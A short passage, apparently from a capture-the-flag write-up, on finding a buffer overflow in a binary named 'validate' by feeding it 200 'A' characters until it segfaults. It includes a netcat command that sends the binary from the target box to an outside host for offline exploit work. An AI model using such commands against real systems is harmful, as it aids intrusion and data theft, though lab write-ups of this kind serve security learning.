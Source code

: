 ![file-validate](assets/markdown-img-paste-2021091006175132.png)

Just running it give us a usage text, it takes input.

![validate-test](assets/markdown-img-paste-20210910061537831.png)

Running it with a bit more input, will generate a segmentation fault.

`./validate $(python -c 'print "A"*200')`

So this might be vulnerable to a bof.

Downloading it to local machine for futher exploit.

`nc -w 3 10.8.210.115 1337 < validate`

Get a ballpark value of where the segfault happens:

![segfault-fuzz](assets/markdown-img-paste-20210910062715536.png)
